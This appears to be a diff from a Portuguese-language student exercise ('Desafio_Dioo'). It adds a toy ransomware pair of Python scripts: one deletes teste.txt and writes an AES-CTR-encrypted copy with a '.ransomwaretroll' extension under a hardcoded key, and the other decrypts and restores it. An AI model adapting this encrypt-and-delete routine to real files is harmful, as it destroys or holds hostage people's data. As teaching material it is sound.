 @@ -0,0 +1,22 @@
import os
import pyaes
## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()
## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)
## remover o arquivo criptografado
os.remove(file_name)
## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()# Desafio_Dioo


@@ -0,0 +1,24 @@
import os
import pyaes
## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()
## remover o arquivo
os.remove(file_name)
## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
## criptografar o arquivo
crypto_data = aes.encrypt(file_data)
## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

+ 1
Número da linha do arquivo original	Número da linha de diferença	Mudança de linha diferencial
@@ -0,0 +1 @@
alo brasil
